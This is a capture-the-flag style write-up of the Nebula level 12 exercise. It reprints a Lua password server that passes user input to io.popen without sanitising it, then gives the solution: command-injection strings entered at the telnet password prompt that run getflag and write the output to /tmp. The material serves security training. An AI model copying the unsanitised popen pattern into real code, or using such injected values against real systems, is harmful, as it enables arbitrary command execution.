 .. _nebula12:

.. role:: bash(code)
	  :language: bash

.. role:: lua(code)
	  :language: lua
	       
Nebula 12
=========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level12/

**Source Code**

.. code-block:: lua
		local socket = require("socket")
		local server = assert(socket.bind("127.0.0.1", 50001))

		function hash(password)
		    prog = io.popen("echo "..password.." | sha1sum", "r")
		    data = prog:read("*all")
		    prog:close()

		    data = string.sub(data, 1, 40)

		    return data
		end


		while 1 do
		    local client = server:accept()
		    client:send("Password: ")
		    client:settimeout(60)
		    local line, err = client:receive()
		    if not err then
		        print("trying " .. line) -- log from where ;\
			local h = hash(line)

			if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
			    client:send("Better luck next time\n");
			else
			    client:send("Congrats, your token is 413**CARRIER LOST**\n")
			end

		end

		client:close()
		end

Solution
--------

Execute :bash:`telnet` on localhost on port 50001

:bash:`$ telnet 127.0.0.1 50001`

When password is asked

:bash:`Password: 1;/bin/getflag > /tmp/level12;echo 1`

It will say better luck next time and it will close the connection

Then simply use cat the output file

:bash:`cat /tmp/level12`

In case you want to pass the hash it will be this way

:bash:`$ telnet 127.0.0.1 50001`

:bash:`Password: 4754a4f4bd5787accd33de887b9250a0691dd198;echo 1`

